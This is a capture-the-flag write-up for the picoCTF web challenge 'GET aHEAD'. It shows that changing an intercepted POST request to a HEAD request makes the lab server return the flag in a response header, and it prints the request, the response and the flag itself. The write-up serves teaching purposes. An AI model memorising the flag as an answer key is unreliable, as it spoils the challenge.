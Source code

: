 # GET aHEAD

## Problem

> Find the flag being held on this server to get ahead of the competition <http://mercury.picoctf.net:47967/>

## Solution

1. Use Burp Suite to intercept the request of clicking the "Choose Blue" button.
2. Change the POST request to a HEAD request:

    ```
    HEAD /index.php HTTP/1.1
    Host: mercury.picoctf.net:47967
    Content-Length: 0
    Origin: http://mercury.picoctf.net:47967
    Connection: close
    ```

3. The returned HTML from the HEAD request in the browser will be empty, but in the HTTP history tab of Proxy in Burp Suite you can find the flag as a HTTP header in the response:

    ```
    HTTP/1.1 200 OK
    flag: picoCTF{r3j3ct_th3_du4l1ty_cca66bd3}
    Content-type: text/html; charset=UTF-8
    ```

### Flag

`picoCTF{r3j3ct_th3_du4l1ty_cca66bd3}`
